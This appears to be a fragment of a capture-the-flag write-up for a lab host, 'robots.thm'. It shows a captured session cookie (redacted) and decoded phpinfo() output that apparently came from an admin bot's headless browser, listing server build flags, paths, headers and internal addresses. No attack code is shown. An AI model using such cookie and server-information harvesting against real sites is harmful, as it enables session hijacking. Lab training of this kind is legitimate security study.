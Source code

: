 ```bash
$_SERVER['HTTP_COOKIE']           PHPSESSID=REDACTED
```

<p><em>decoded</em></p>

```bash
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "DTD/xhtml1-transitional.dtd">
...
<title>PHP 8.3.10 - phpinfo()</title><meta name="ROBOTS" content="NOINDEX,NOFOLLOW,NOARCHIVE" /></head>
...
<tr><td class="e">Configure Command </td><td class="v"> &#039;./configure&#039;  &#039;--build=x86_64-linux-gnu&#039; &#039;--with-config-file-path=/usr/local/etc/php&#039; &#039;--with-config-file-scan-dir=/usr/local/etc/php/conf.d&#039; &#039;--enable-option-checking=fatal&#039; &#039;--with-mhash&#039; &#039;--with-pic&#039; &#039;--enable-mbstring&#039; &#039;--enable-mysqlnd&#039; &#039;--with-password-argon2&#039; &#039;--with-sodium=shared&#039; &#039;--with-pdo-sqlite=/usr&#039; &#039;--with-sqlite3=/usr&#039; &#039;--with-curl&#039; &#039;--with-iconv&#039; &#039;--with-openssl&#039; &#039;--with-readline&#039; &#039;--with-zlib&#039; &#039;--disable-phpdbg&#039; &#039;--with-pear&#039; &#039;--with-libdir=lib/x86_64-linux-gnu&#039; &#039;--disable-cgi&#039; &#039;--with-apxs2&#039; &#039;build_alias=x86_64-linux-gnu&#039; </td></tr>
<tr><td class="e">Server API </td><td class="v">Apache 2.0 Handler </td></tr>
<tr><td class="e">Virtual Directory Support </td><td class="v">disabled </td></tr>
<tr><td class="e">Configuration File (php.ini) Path </td><td class="v">/usr/local/etc/php </td></tr>
<tr><td class="e">Loaded Configuration File </td><td class="v">/usr/local/etc/php/php.ini </td></tr>
<tr><td class="e">Scan this dir for additional .ini files </td><td class="v">/usr/local/etc/php/conf.d </td></tr>
<tr><td class="e">Additional .ini files parsed </td><td class="v">/usr/local/etc/php/conf.d/docker-php-ext-pdo_mysql.ini,
...
<tr><td class="e">HTTP_HOST </td><td class="v">robots.thm </td></tr>
<tr><td class="e">HTTP_CONNECTION </td><td class="v">keep-alive </td></tr>
<tr><td class="e">HTTP_USER_AGENT </td><td class="v">Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/127.0.6533.119 Safari/537.36 </td></tr>
<tr><td class="e">HTTP_ACCEPT </td><td class="v">*/* </td></tr>
<tr><td class="e">HTTP_REFERER </td><td class="v">http://robots.thm/harm/to/self/index.php </td></tr>
<tr><td class="e">HTTP_ACCEPT_ENCODING </td><td class="v">gzip, deflate </td></tr>
<tr><td class="e">HTTP_COOKIE </td><td class="v">PHPSESSID=REDACTED </td></tr>
...
<tr><td class="e">SERVER_SIGNATURE </td><td class="v">&lt;address&gt;Apache/2.4.61 (Debian) Server at robots.thm Port 80&lt;/address&gt;
 </td></tr>
<tr><td class="e">SERVER_SOFTWARE </td><td class="v">Apache/2.4.61 (Debian) </td></tr>
<tr><td class="e">SERVER_NAME </td><td class="v">robots.thm </td></tr>
<tr><td class="e">SERVER_ADDR </td><td class="v">172.18.0.4 </td></tr>
<tr><td class="e">SERVER_PORT </td><td class="v">80 </td></tr>
<tr><td class="e">REMOTE_ADDR </td><td class="v">172.18.0.3 </td></tr>
<tr><td class="e">DOCUMENT_ROOT </td><td class="v">/var/www/html </td></tr>
```
